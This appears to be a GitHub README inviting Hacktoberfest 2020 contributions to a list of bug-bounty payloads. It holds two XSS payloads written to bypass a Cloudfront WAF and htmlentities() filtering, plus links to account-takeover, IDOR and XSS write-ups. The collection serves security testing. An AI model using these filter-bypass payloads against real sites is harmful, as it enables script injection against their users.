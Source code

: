 <center><img src="https://hacktoberfest.digitalocean.com/assets/h-dark-d1a5f262f5aa5936d3bc526365938d98f3946e669f6e2cd9ae1e7a848c57e351.svg" alt="drawing" width="200"/></center>

# Hacktoberfest 2020

Hacktoberfest® is open to everyone in our global community. Whether you’re a developer, student learning to code, event host, or company of any size, you can help drive growth of open source and make positive contributions to an ever-growing community. All backgrounds and skill levels are encouraged to complete the challenge.

- Hacktoberfest is a celebration open to everyone in our global community.
- Pull requests can be made in any GitHub-hosted repositories/projects.
- You can sign up anytime between October 1 and October 31.
## Let's contribute the easy way

For this time I will try to fill in the repo with a payload related to Bug Hunting, you can add it to participate in the Hacktoberfest 2020 event and also make it easier for other Bug Hunters to handle problems such as payloads being blocked by WAF and others by adding your payload in a new file with the format shown below.

## Payload List
##### XSS Bypass Cloudfront WAF By Noobsec
```html
x"><--<img src= "><details/open/ontoggle=alert(`mindbl0w@bugcrodninja.com`)>> --!>=
```
---
##### XSS Bypass htmlentities() [bad implementation case]
```html
%2522%253E%253Csvg%252Fonload%253Dalert%25281%2529%253E
```
---

## Writeup List
##### No Rate Limiting to Bypass Phone Verification
- [Account Takeover ~ Yasuyadav](https://medium.com/@vasuyadav0786/5-ways-to-do-ato-in-a-single-website-cfe7e5da987e)
---
- [Parameter Tampering ~ Suneets1ngh](https://medium.com/@suneets1ngh/parameter-tampering-ddd9b3de0da8)
---
- [IDOR ~ bugbountywriteup](https://medium.com/bugbountywriteup/pii-leakage-via-idor-weak-passwordreset-full-account-takeover-58d159f88d73)
---
- [XSS  ~ Alonnsoandres](https://medium.com/@alonnsoandres/25k-instagram-almost-xss-filter-link-facebook-bug-bounty-798b10c13b83)
---
## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

Please make sure to update tests as appropriate.

## License
[MIT](https://choosealicense.com/licenses/mit/)

